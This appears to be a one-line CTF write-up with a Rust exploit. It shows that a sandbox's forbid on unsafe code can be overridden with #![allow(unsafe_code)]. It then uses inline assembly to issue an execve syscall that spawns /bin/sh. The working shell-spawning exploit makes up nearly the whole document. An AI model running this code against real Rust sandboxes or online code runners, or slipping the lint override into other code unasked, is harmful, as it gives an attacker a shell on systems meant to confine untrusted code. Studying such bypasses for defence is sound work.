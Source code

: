- one line writeup: I do not understand why we can override `unsafe_code` option, from forbid to allow.

```rust
#![allow(unsafe_code)]
pub fn main() {
    let x = "/bin/sh\x00";
    let buf = x.as_bytes();
    let ret: isize;
    unsafe {
            asm!("syscall"
            : "={rax}"(ret)
             : "{rax}"(59), "{rsi}"(0), "{rdi}"(buf.as_ptr()), "{rdx}"(0)
             : "rcx","r11","memory"
             : "volatile");
    }

}
```

